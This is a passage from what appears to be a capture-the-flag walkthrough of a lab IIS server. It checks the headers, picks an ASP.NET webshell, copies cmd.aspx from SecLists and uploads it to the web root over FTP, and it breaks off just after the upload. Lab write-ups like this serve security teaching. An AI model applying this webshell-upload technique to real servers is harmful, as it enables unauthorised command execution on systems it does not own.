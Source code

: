 I could kick off a `gobuster` to look for more paths, but given my
theory about the web root being accessible via ftp, I'll skip `gobuster`
in favor of attacking that.

I can also add more weight to this theory by checking the two files from
ftp, and confirming they exist on the web server. They do.
`http://10.10.10.5/iisstart.htm` loads the same page as the root url,
and `welcome.png` is the image on that page.

One other thing I will observe - If I look in burp at the http response,
I see the following header:



    HTTP/1.1 200 OK
    Content-Type: text.md
    Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
    Accept-Ranges: bytes
    ETag: "37b5ed12c9fd21:0"
    Server: Microsoft-IIS/7.5
    X-Powered-By: ASP.NET
    Date: Mon, 25 Feb 2019 10:40:02 GMT
    Connection: close
    Content-Length: 689



Seeing that this server is running ASP.NET means I will likely need a
.aspx webshell when I get to that.

## Shell as web

### Webshell Upload

I always like to start with a simple web shell to test execution. In
this case, I'm going to try aspx. If you google for aspx webshell,
you'll find tons out there. I like the one that comes with
[SecLists](https://github.com/danielmiessler/SecLists). I'll find it and
copy it to my local directory:



    root@kali# locate cmd.aspx
    /usr/share/davtest/backdoors/aspx_cmd.aspx
    /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
    root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .



Now I'll upload it over ftp:



    ftp> put cmd.aspx  
    local: cmd.aspx remote: cmd.aspx 
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.                              
    1442 bytes sent in 0.00 secs (985.4465 kB/s) 
